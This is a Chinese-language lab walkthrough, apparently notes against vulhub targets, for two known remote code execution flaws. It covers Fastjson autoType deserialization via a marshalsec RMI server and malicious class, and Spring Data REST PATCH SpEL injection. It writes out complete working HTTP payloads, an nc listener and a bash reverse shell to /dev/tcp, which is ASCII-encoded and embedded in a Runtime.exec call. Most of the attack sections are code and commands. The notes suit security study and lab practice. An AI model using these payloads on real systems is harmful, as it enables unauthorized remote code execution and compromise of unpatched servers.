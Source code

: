 # fastjson反序列化漏洞

> 漏洞背景

- 漏洞`原理`:Fastjson 在解析json的过程中，支持使用autoType来实例化某一个具体的类，并调用该类的set/get方法来访问属性。fastjson 默认使用 @type 指定反序列化任意类，攻击者可以通过在 java 常见环境中寻找能够构造恶意类的方法，通过反序列化的过程中调用的 getter/setter 方法，以及目标成员变量的注入来达到传参的目的，最终形成恶意调用链。

- 利用`流程`

  1.首先开启HTTP服务器，并将恶意类放在目录下
  2.开启恶意RMI服务器
  3.攻击者控制url参数为上一步开启的恶意RMI服务器地址
  4.恶意RMI服务器返回ReferenceWrapper类
  5.目标 (JNDI Client)在执行lookup操作的时候，在decodeObject中将ReferenceWrapper变成Reference
  类，然后远程加载并实例化我们的Factory类(即远程加载我们HTTP服务器上的恶意类)，在实例化时触发静
  态代码片段中的恶意代码

### 环境搭建

- 安装JDK1.8[[下载地址](https://www.oracle.com/java/technologies/javase/javase8-archive-downloads.html)]

```sh
mkdir -p /usr/local/java
cp jdk-8u251-linux-x64.tar.gz  /usr/local/java
tar -zxvf jdk-8u251-linux-x64.tar.gz
```

- 配置环境变量

```sh
vim /etc/profile

# 进入环境变量
JAVA_HOME=/usr/local/java/jdk1.8.0_251 
PATH=$PATH:$HOME/bin:$JAVA_HOME/bin
export JAVA_HOME
export PATH

# 通知Java目录
update-alternatives --install "/usr/bin/java" "java" "/usr/local/java/jdk1.8.0_251/bin/java" 1
update-alternatives --install "/usr/bin/javac" "javac" "/usr/local/java/jdk1.8.0_251/bin/javac" 1
update-alternatives --install "/usr/bin/javaws" "javaws" "/usr/local/java/jdk1.8.0_251/bin/javaws" 1
update-alternatives --install "/usr/bin/javaws" "javaws" "/usr/local/java/jdk1.8.0_251/bin/javaws" 1
```

- 切换Java版本

```sh
update-alternatives --config java
```

------

- 利用`marshalsec`编译开启`RMI`服务
- 利用marshalsec编译并开启RMI服务:
  1. git clone https://github.com/mbechler/marshalsec.git 下载项目文件
  2. apt-get install maven 安装maven项目管理工具
  3. cd marshalsec 切换至marshalsec目录
  4. mvn clean package -DskipTests 使用maven项目管理工具打包文件
  

### 目录结构

![image-20240922140446189](./assets/image-20240922140446189.png)

### 编辑`恶意类`代码

![image-20240922135643703](./assets/image-20240922135643703.png)

```php
//使用javac编译成.class
javac fastjsonshell.java
```

![image-20240922140637397](./assets/image-20240922140637397.png)

```cmd
//在当前目录开启web服务
python3 -m http.server 9090
```

![image-20240922142243887](./assets/image-20240922142243887.png)

```cmd
//利用marshalsec项目启动RMI服务器,监听9999端口
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.RMIRefServer "http://192.168.136.219:9090#fastjsonshell" 9999
```

![image-20240922143954604](./assets/image-20240922143954604.png)

```cmd
//监听 8888 端口
nc -lvvp 8888
```

### BP抓包发送POST数据

```http
POST / HTTP/1.1
Host: 192.168.41.54:8090
Cache-Control: max-age=0
Accept-Language: zh-CN
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.6478.57 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Content-Type: application/json
Content-Length: 0

{
 		"b":{
			"@type":"com.sun.rowset.JdbcRowSetImpl",
			"dataSourceName":"rmi://192.168.41.219:9999/fastjsonshell",
			"autoCommit":true
	}
}
```

![image-20240922154815546](./assets/image-20240922154815546.png)

![image-20240922155443606](./assets/image-20240922155443606.png)

------

# Spring Data Rest远程命令执行命令

> 漏洞背景

- 介绍:Spring-data-rest服务器在处理PATCH请求时，攻击者可以构造恶意的PATCH请求并发送给spring-date-rest服务器，通过构造好的JSON数据来执行任意Java代码。
- 影响`版本`
  Spring Data REST versions < 2.5.12,2.6.7, 3.0 RC3
  Spring Boot version < 2.0.0M4
  Spring Data release trains < Kay-RC3

```python
//使用python交互式命令行将 执行命令转化成为 ascii
",".join(map(str, (map(ord,"bash -i>&/dev/tcp/192.168.41.219/8888 0>&1"))))

'98,97,115,104,32,45,105,62,38,47,100,101,118,47,116,99,112,47,49,57,50,46,49,54,56,46,52,49,46,50,49,57,47,56,56,56,56,32,48,62,38,49'
```

![image-20240922163728851](./assets/image-20240922163728851.png)

![image-20240922164731440](./assets/image-20240922164731440.png)

------

![image-20240922165059990](./assets/image-20240922165059990.png)

------

![image-20240922164811578](./assets/image-20240922164811578.png)

------

![image-20240922165119610](./assets/image-20240922165119610.png)

------

- 发现不对劲以后对`http://192.168.41.54:8080/customers/1`抓包
- 修改为`PATCH`请求

![image-20240922165916045](./assets/image-20240922165916045.png)

------

- `Base64`编码 

![image-20240922171345647](./assets/image-20240922171345647.png)

- `Ascii`编码

![image-20240922171551863](./assets/image-20240922171551863.png)

- 去掉多于的部分

```ascii
98,97,115,104,32,45,99,32,123,101,99,104,111,44,89,109,70,122,97,67,65,116,97,83,65,43,74,105,65,118,90,71,86,50,76,51,82,106,99,67,56,120,79,84,73,117,77,84,89,52,76,106,81,120,76,106,73,120,79,83,56,52,79,68,103,52,73,68,65,43,74,106,69,61,125,124,123,98,97,115,101,54,52,44,45,100,125,124,123,98,97,115,104,44,45,105,125
```

```php
PATCH /customers/1 HTTP/1.1
Host: 192.168.41.54:8080
Cache-Control: max-age=0
Accept-Language: zh-CN
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.6478.57 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
If-None-Match: "0"
If-Modified-Since: Sun, 22 Sep 2024 08:41:10 GMT
Connection: keep-alive
Content-Type: application/json-patch+json
Content-Length: 458

[{ "op": "replace", "path": "T(java.lang.Runtime).getRuntime().exec(new java.lang.String(new byte[]{98,97,115,104,32,45,99,32,123,101,99,104,111,44,89,109,70,122,97,67,65,116,97,83,65,43,74,105,65,118,90,71,86,50,76,51,82,106,99,67,56,120,79,84,73,117,77,84,89,52,76,106,81,120,76,106,73,120,79,83,56,52,79,68,103,52,73,68,65,43,74,106,69,61,125,124,123,98,97,115,101,54,52,44,45,100,125,124,123,98,97,115,104,44,45,105,125}))/lastname", "value": "vulhub" }]
```

![image-20240922171657483](./assets/image-20240922171657483.png)

![image-20240922171726242](./assets/image-20240922171726242.png)

> log4j*